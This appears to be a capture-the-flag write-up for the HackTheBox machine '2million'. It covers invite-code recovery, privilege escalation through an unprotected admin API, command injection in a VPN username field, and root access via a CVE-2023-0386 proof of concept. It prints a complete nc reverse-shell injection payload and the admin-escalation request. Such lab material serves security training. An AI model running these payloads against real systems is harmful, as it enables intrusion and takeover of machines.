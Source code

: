 # INITIAL ACCESS

## DISCOVERY

1. Run a `nmap` scan and discover ports 22 and 80 open

![nmap scan](screenshots/01-nmap-scan.png)

2. Add `2million.htb` to the `/etc/hosts` file

3. Explore the webpage and discover the `/invite` endpoint

![invite page](screenshots/02-invite-page.png)

4. Using BurpSuite, notice that this page makes a call to `js/inviteapi.min.js`

![invite api javascript](screenshots/03-iniviteapi-js.png)

5. The js content is obfuscated, but you can copy it as a one-liner and paste it to https://beautifier.io/ to de-obfuscate it

![beautified code](screenshots/04-javascript-beautify.png)

6. Make a POST request to `/api/v1/invite/how/to/generate`

![api code generation](screenshots/05-generate-api.png)

7. Decode the message using [CyberChef](https://gchq.github.io/CyberChef/#recipe=ROT13(true,true,false,13)&input=VmEgYmVxcmUgZ2IgdHJhcmVuZ3IgZ3VyIHZhaXZnciBwYnFyLCB6bnhyIG4gQ0JGRyBlcmRocmZnIGdiIC9uY3YvaTEvdmFpdmdyL3RyYXJlbmdy) 

![decoded message](screenshots/06-rot13-decode.png)

8. Make a POST request to `api/v1/invite/generate` and notice that the code you received is base64 encoded. Decode that to get the code

![decoded base64](screenshots/08-invite-code-decoded.png)

9. Make an account and log in. Then explore the landing page a bit.

![landing page](screenshots/09-landing-page.png)

10. After logging in, we can enumerate the API endpoints by submitting a request to `/api/v1`

![api endpoints](screenshots/10-api-endpoints.png)

11. Although most of the admin endpoints are locked against unauthenticated users, the `PUT` request to `/api/v1/admin/settings/update` is not. The following screenshots show the enumeration process of discovering how to abuse this to make our user admin, eventually submitting the following request

```http
PUT /api/v1/admin/settings/update HTTP/1.1
Content-Type: application/json

{
	"email":"your registered email",
	"is_admin":1
}
```

![updating admin settings](screenshots/11-admin-settings-1.png)

![updating admin settings](screenshots/12-admin-settings-2.png)

![updating admin settings](screenshots/13-admin-settings-3.png)

![updating admin settings](screenshots/14-admin-settings-4.png)

Then we can verify that our user is now admin

![checking that user is now admin](screenshots/15-user-is-admin.png)

12. With admin permissions added to our account, we can verify the `/api/v1/admin/vpn/generate`. It expects a valid username, and the screenshots below show the enumeration process.

![generating vpn](screenshots/16-vpn-generate.png)

![generating vpn](screenshots/17-vpn-generate-2.png)

We can generate the ovpn file, but that's useless. There is no difference between generating the file as an admin or as a low-privileged user. However, we needed to provide the username when generating the file as admin. This is interesting because then it might be vulnerable to code injection - which is confirmed, as demonstrated below.

![command injection](screenshots/18-vpn-generate-cmd-injection.png)

![command injection confirmation](screenshots/19-command-injection-confirm.png)

We get our first shell by injecting `; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <ip> 1337 >/tmp/f` 

![first shell](screenshots/20-first-shell.png)

13. Investigate the files in `/var/www/html` and notice the `.env` contains the **admin** password.

![admin password found](screenshots/21-admin-password.png)

14. Use that password to SSH as **admin**

![admin shell](screenshots/22-admin-shell.png)

15. Enumerate admin files and notice that there is a message in `/var/mail/admin`

![locating admin files](screenshots/23-admin-files.png)

16. Search for the exploit mentioned. A Google search leads us to https://securitylabs.datadoghq.com/articles/overlayfs-cve-2023-0386/

![exploit found](screenshots/25-exploit-found.png)

17. We can try the exploit mentioned, however, that is not sufficient since we still don't have root access.

![sending first stage of exploit](screenshots/26-exploit-first-stage.png)

18. The exploit website mentions a [proof of concept](https://github.com/xkaneiki/CVE-2023-0386/). We can download that POC and follow the manual (use Google translator) to get root.

![found proof of concept](screenshots/27-poc-found.png)

![got root](screenshots/28-root.png)
